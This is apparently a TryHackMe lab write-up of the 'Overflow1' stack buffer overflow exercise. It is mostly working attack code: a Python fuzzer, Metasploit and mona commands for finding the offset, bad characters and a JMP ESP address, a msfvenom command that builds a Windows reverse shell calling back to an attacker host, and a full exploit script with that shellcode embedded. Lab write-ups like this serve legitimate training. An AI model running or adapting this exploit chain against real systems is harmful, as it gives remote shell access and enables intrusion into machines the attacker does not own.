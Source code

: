 ```yaml
---
layout : post 
title: Overflow1
author: TryHackme
date: 2021-04-29 01:43 +0530

tags: [BufferFlow]
---
```


# Fuzzing

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.142.100"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/Fuzz.png)

# BadCharacters


> note only open the application through debugger only 

bites mentioned the crash bites and add 400 for safe side (payload)

eip 

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Here YOu can find the offset using `mona` or using the `msf_pattern_offset`

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/esi_eip.png)

!mona findmsp -distance 2400

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/b's.png)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E
[*] Exact match at offset 1978
```

```python
#update the offset with value
#inserting the badcharecter inside payload
#now retn will be four B's at retn value 

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = "" 
payload =  "\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
**Findind the BadCharacter**

>creating the bytearray

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monobytearray.png)

!mona bytearray -b "\x00"

with ESP address

!mona compare -f C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin -a 0185FA30

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monaCompare.png)

now checking the everybadchar , because some times one bad char maycause the otherbadchar 

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x07.png)

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x2e.png)

badchars can affect the next byte as well!

findind jump esp regisiter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/jmpesp.png)

!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

**625011AF**

finally got to sortout the badcharacter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/bachar.png)

# Exploit 

creating the shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.202.83 LPORT=5555 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

```python

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn =  "\xaf\x11\x50\x62" #625011AF
padding = "\x90" * 16 
payload =("\xd9\xcf\xb8\x3d\xc6\x1c\xb8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x13\x03\x7b\xd5\xfe\x4d\x7f\x31\x7c"
"\xad\x7f\xc2\xe1\x27\x9a\xf3\x21\x53\xef\xa4\x91\x17\xbd\x48"
"\x59\x75\x55\xda\x2f\x52\x5a\x6b\x85\x84\x55\x6c\xb6\xf5\xf4"
"\xee\xc5\x29\xd6\xcf\x05\x3c\x17\x17\x7b\xcd\x45\xc0\xf7\x60"
"\x79\x65\x4d\xb9\xf2\x35\x43\xb9\xe7\x8e\x62\xe8\xb6\x85\x3c"
"\x2a\x39\x49\x35\x63\x21\x8e\x70\x3d\xda\x64\x0e\xbc\x0a\xb5"
"\xef\x13\x73\x79\x02\x6d\xb4\xbe\xfd\x18\xcc\xbc\x80\x1a\x0b"
"\xbe\x5e\xae\x8f\x18\x14\x08\x6b\x98\xf9\xcf\xf8\x96\xb6\x84"
"\xa6\xba\x49\x48\xdd\xc7\xc2\x6f\x31\x4e\x90\x4b\x95\x0a\x42"
"\xf5\x8c\xf6\x25\x0a\xce\x58\x99\xae\x85\x75\xce\xc2\xc4\x11"
"\x23\xef\xf6\xe1\x2b\x78\x85\xd3\xf4\xd2\x01\x58\x7c\xfd\xd6"
"\x9f\x57\xb9\x48\x5e\x58\xba\x41\xa5\x0c\xea\xf9\x0c\x2d\x61"
"\xf9\xb1\xf8\x26\xa9\x1d\x53\x87\x19\xde\x03\x6f\x73\xd1\x7c"
"\x8f\x7c\x3b\x15\x3a\x87\xac\x10\xb2\x4d\x7f\x4d\xc6\x51\x95"
"\x3e\x4f\xb7\xff\x50\x06\x60\x68\xc8\x03\xfa\x09\x15\x9e\x87"
"\x0a\x9d\x2d\x78\xc4\x56\x5b\x6a\xb1\x96\x16\xd0\x14\xa8\x8c"
"\x7c\xfa\x3b\x4b\x7c\x75\x20\xc4\x2b\xd2\x96\x1d\xb9\xce\x81"
"\xb7\xdf\x12\x57\xff\x5b\xc9\xa4\xfe\x62\x9c\x91\x24\x74\x58"
"\x19\x61\x20\x34\x4c\x3f\x9e\xf2\x26\xf1\x48\xad\x95\x5b\x1c"
"\x28\xd6\x5b\x5a\x35\x33\x2a\x82\x84\xea\x6b\xbd\x29\x7b\x7c"
"\xc6\x57\x1b\x83\x1d\xdc\x3b\x66\xb7\x29\xd4\x3f\x52\x90\xb9"
"\xbf\x89\xd7\xc7\x43\x3b\xa8\x33\x5b\x4e\xad\x78\xdb\xa3\xdf"
"\x11\x8e\xc3\x4c\x11\x9b")

  
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
